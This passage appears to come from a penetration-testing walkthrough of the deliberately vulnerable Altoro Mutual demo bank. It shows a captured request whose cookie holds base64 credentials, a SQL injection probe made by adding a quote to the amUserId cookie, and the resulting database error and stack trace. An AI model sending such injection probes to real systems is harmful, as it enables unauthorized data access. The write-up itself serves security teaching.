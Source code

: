~~~.dotnet
}
~~~



### SQL injection using Cookie data

After login following request will be sent to the server:

~~~.html
GET /bank/main.aspx HTTP/1.1
Host: demo.testfire.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:10.0.6) Gecko/20100101 Firefox/10.0.6
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip, deflate
Proxy-Connection: keep-alive
Referer: http://demo.testfire.net/bank/login.aspx
Cookie: ASP.NET_SessionId=2ks1fprgokgkd0jthbms3d25; amSessionId=62733112717; amUserInfo=UserName=YWRtaW4=&Password=YWRtaW4=; amUserId=1
~~~

A look at the *GetAccounts* in the source code reveals that *userId* is actually some data from the cookie *amUserId* and never gets sanitized. Let's have some fun:

~~~.shell
GET /bank/main.aspx HTTP/1.1
...
amUserInfo=UserName=YWRtaW4=&Password=YWRtaW4=; amUserId=1'
~~~

*amUserId* was changed and the whole GET request was sent again to the server. The response was quite informative:

~~~
An Error Has Occurred
Summary:
Syntax error in string in query expression 'userid = 1''.
Error Message:
System.Data.OleDb.OleDbException: Syntax error in string in query expression 'userid = 1''. at System.Data.OleDb.OleDbCommand.ExecuteCommandTextErrorHandling(OleDbHResult hr) at System.Data.OleDb.OleDbCommand.ExecuteCommandTextForSingleResult(tagDBPARAMS dbParams, Object& executeResult) at System.Data.OleDb.OleDbCommand.ExecuteCommandText(Object& executeResult) at System.Data.OleDb.OleDbCommand.ExecuteCommand(CommandBehavior behavior, Object& executeResult) at System.Data.OleDb.OleDbCommand.ExecuteReaderInternal(CommandBehavior behavior, String method) at System.Data.OleDb.OleDbCommand.ExecuteReader(CommandBehavior behavior) at System.Data.OleDb.OleDbCommand.System.Data.IDbCommand.ExecuteReader(CommandBehavior behavior) at System.Data.Common.DbDataAdapter.FillInternal(DataSet dataset, DataTable[] datatables, Int32 startRecord, Int32 maxRecords, String srcTable, IDbCommand command, CommandBehavior behavior) at System.Data.Common.DbDataAdapter.Fill(DataSet dataSet, Int32 startRecord, Int32 maxRecords, String srcTable, IDbCommand command, CommandBehavior behavior) at System.Data.Common.DbDataAdapter.Fill(DataSet dataSet, String srcTable) at Altoro.Default.GetAccounts(String userId) in d:downloadsAltoroMutual_v6websitankmain.aspx.cs:line 54 at Altoro.Default.Page_Load(Object sender, EventArgs e) in d:downloadsAltoroMutual_v6websitankmain.aspx.cs:line 31 at System.Web.Util.CalliHelper.EventArgFunctionCaller(IntPtr fp, Object o, Object t, EventArgs e) at System.Web.Util.CalliEventHandlerDelegateProxy.Callback(Object sender, EventArgs e) at System.Web.UI.Control.OnLoad(EventArgs e) at System.Web.UI.Control.LoadRecursive() at System.Web.UI.Page.ProcessRequestMain(Boolean includeStagesBeforeAsyncPoint, Boolean includeStagesAfterAsyncPoint)
~~~
